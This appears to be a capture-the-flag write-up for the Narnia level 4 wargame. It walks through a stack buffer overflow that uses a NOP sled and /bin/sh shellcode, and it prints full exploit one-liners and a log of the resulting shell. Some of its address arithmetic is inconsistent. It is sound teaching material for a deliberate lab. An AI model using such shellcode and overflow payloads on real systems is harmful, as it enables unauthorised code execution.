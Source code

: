 

### Step 4: Writing and Applying the Exploit

We know that the Stack has size of 272 bytes and that the return address is **0xffffd5dc**.  If we add the return address, it sums to 276.

Now we have some freedom to choose where to place our shellcode. Let's say, we place it somewhere in the middle, say, at the position 134. In the memory, we get: ```0xffffd5cc - 134 = 0xffffd546```.

Since 276 minus 134 is 142, if we point the return address to   **0xffffd546**, it will go to the 142th position in the Stack and execute whatever is there. We want to make sure that the return address will always end in the shellcode address and for this reason we fill the addresses around with NOPs.


We will borrow the shellcode from the previous levels, which has size of 25 bytes:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80
```

Considering the values above, we can write the following exploit:

```
`python -c "print '\x90'*142 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*105 + '\x46\xd5\xff\xff'"`
```

We could have used another address to craft another version of the exploit. Then we would have to simply adjust our NOPs and our paddings. For example, ```0xffffd5cc - 120 = 0xffffd554```:

```
`print -c "'\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'" `
```

Both works.

We finally apply our exploit:
```
narnia4@melinda:/tmp$ python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"
������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��P���
              AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT���
narnia4@melinda:/tmp$ /narnia/narnia4 `python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"`
$ whoami
narnia5
```



----------

All right, we have completed half of the challenges from Narnia. Soon I will post the other half.
